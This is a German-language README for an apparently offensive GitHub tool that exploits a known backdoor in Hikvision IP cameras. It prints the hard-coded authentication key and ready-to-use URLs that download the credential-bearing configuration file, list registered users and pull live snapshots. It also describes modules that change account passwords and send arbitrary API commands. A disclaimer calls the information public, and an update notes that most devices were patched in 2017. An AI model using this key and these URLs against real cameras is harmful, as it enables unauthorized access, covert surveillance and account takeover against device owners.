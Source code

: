 # hikvision-sdk-cam

English version can be found [here](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/eng.md).

<b>
DISCLAIMER: Alle informationen, die hier gepostet werden/ wurden, sind öffentlich auf anderen Seiten zugänglich. Dieses Repository bietet nur einen generellen Überblick über die Möglichkeitenvon Übergriffen, die durch die gebotenen Schwachstellen entstanden sind.
</b>

#
<b>UPDATE: Nach einem Firmware-Update 2017 sind die meisten Geräte gegen diese Schwachstelle immun. [Hier](https://sergei.nz/reverse-engineering-hikvision-sadp-tool/) gibt es einen Artikel zum Reverse-Engineering des neuen Passwort-Reset-Tools von Hikvision.</b>
#
[Hier](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/doc/udp.md) geht es zur unoffiziellen Dokumentation der UDP basierten Kommunikation mit der Kamera. Diese wird auch von dem Passwort-Reset-Tool von Hikvision zum Reset verwendet.

## Backdoor

Es ist schon seit ein paar Jahren bekannt, dass es eine Backdoor in den Hikvision-Kameras gibt. Diese hätte geheim gehalten werden können, hätte man den Authentifizierungsschlüssel nicht in ein open-source Passwort-Reset-Tool geschrieben (Stichwort: HikPassword-Helper). Der Schlüssel lautet:

    AUTH_KEY = 'YWRtaW46MTEK'

Mithilfe dieses Schlüssels ist der Zugriff auf die interne Web-API der Kamera grundsätzlich möglich. Die Befehle dieser API sind in der Datei 'websdk.js' zu finden (einfach über einen beliebigen Browser die login-Seite überprüfen). Ein paar stehen mit Erklärung dazu in der Datei [commands.py](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/src/base/commands.py).

## Zugriff erhalten

Um nun Zugriff auf das Gerät zu bekommen, gibt es verschiedene Wege, die recht einfach umzusetzen sind:

1. Die 'configData'-Datei herunterladen, entschlüsseln und nach den Credentials für registrierten Accounts suchen (Stichwort: hikvision-decryptor github)

    LINK: http:// [IP-ADDR] /System/configurationFile?auth=YWRtaW46MTEK

2. Die registrierten Nutzer/Accounts über einen Link laden und für einen das Passwort ändern (Anleitung dazu weiter unten)

### Links ohne Authentifizierung

Dieser Link zeigt Informationen zu allen registrierten Nutzern an:

    * http://<IP-ADDRESS>/Security/users?auth=YWRtaW46MTEK oder http://<IP-ADDRESS>/ISAPI/Security/users?auth=YWRtaW46MTEK

Hiermit kann ein (live)-Standbild der Kamera übertragen werden:

    *http://<IP-ADDRESS>/onvif-http/snapshot?auth=YWRtaW46MTEK

By the way: Die meisten API-Abfragen, siehe [commands.py](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/src/base/commands.py) können auch mit diesem AUTH_KEY getätigt werden.

URL für einen Livestream (mit VLC-Player oder QuickTime-Player wiedergeben; der AUTH_KEY funktionier hierbei nicht):

    rtsp://<UNAME>:<PWD>@<IP-ADDRESS>:554/Streaming/channels/1/

## Main.py

Der Aufbau dieses Programms ist gleich dem in dem Repository 'Frontier-Silicon-Radio'. Nach dem Start können nur noch die Befehle 'use', 'quit' und 'modules' benutzt werden:

* use [module-name] : nutzt das angegebene modul (die Namen der Module können mit 'modules' ausgegeben werden)
* modules : gibt die Namen aller geladenen Module aus
* quit : beendet das Programm

Wählt man nun ein Modul aus, wird dies im Konsolen-Prompt mit angegeben. Jetzt können nur noch die Befehle 'set', 'run', 'show_options' und 'back' benutzt werden:

* set [option] [value] : Setzt die gewählte Option auf den gegebenen Wert
* show options : gibt eine Liste mit allen nötigen Parametern aus
* run : startet das modul
* back : geht in das Startmenü zurück.

## Module

### /injection/password_changer

Mit diesem kleinen Script kann das Passwort eines bestimmten Nutzers/Accounts geändert werden (hierzu benötigt man lediglich den AUTH_KEY). Um dies zu tun benötigt das Programm folgende eingaben:

    * IP-Addresse der Kamera,
    * den Usernamen der Accounts,
    * das neue Passwort,
    * und die User-ID des Accounts.

### /injection/user_encounter

Hiermit können alle registrierten Nutzer mit ihrer ID, dem Usernamen und ihrem Rang ausgelesen werden. Um dies zu tun benötigt das Programm folgende eingaben:

    * IP-Adresse der Kamera

### /isapi/command_executor

Wie der Name dieses Moduls schon verrät, versucht hier das Programm eine HTTP-GET Anfrage zu machen um eine API-Abfrage zu tätigen. Dazu benötigt das Programm folgende eingaben:

    * IP-Addresse der Kamera,
    * den Befehl, angefangen mit einem  '/'

Falls hierbei keine Rückmeldung erscheint, einfach den Link im Browser eingeben und schauen, ob der Link doch funktioniert. Aus irgendwelchen Gründen schafft es die 'requests'-API nicht, die Authentifizierung der Seiten mit dem AUTH_KEY nicht, der Browser (getestet mit Chrome und Firefox) schon.

 
